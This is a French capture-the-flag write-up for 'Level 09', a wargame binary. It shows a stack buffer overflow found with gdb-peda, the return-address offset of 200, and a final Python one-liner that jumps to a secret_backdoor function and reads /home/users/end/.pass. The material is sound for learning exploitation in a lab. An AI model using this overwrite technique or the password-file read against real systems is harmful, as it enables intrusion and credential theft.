 # Level 09

- On peut overflow la deuxieme entrée
- On calcule donc l'offset pour pouvoir ecrire par dessus la Return Address
- La longueur de se qui sera copier est controlé par l'un des caractere de l'username donc on y met que la plus grande valeur \xff dans toute la string
<pre>
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADA...'
gdb-peda$ r < <(python -c "print('\xff' * 120)"; echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA...')
[----------------------------------registers-----------------------------------]
RBP: 0x417941417841415a ('ZAAxAAyA')
<strong>RSP: 0x7fffffffe4b8 ("AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%")</strong>
RIP: 0x555555554931 (<handle_msg+113>:  ret)
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:     lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:     call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:     leave  
=> 0x555555554931 <handle_msg+113>:     ret    
   0x555555554932 <set_msg>:    push   rbp
   0x555555554933 <set_msg+1>:  mov    rbp,rsp
   0x555555554936 <set_msg+4>:  sub    rsp,0x410
   0x55555555493d <set_msg+11>: mov    QWORD PTR [rbp-0x408],rdi
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555554931 in handle\_msg ()
gdb-peda$ pattern offset AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%
<strong>AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A% found at offset: 200</strong>
</pre>
- On recupere l'addresse de la fonction secret_backdoor qui contien l'execution d'un "shell"
<pre>
(gdb) disass secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
</pre>
- Il ne reste plus qu'a executé la commande qui va rediriger vers secret_backdoor
```
(python -c "print('\xff' * 120)"; python -c "import struct; print('A' * 200 + struct.pack('<q', 0x55555555488c))"; echo 'cat /home/users/end/.pass' ) | ./level09
```
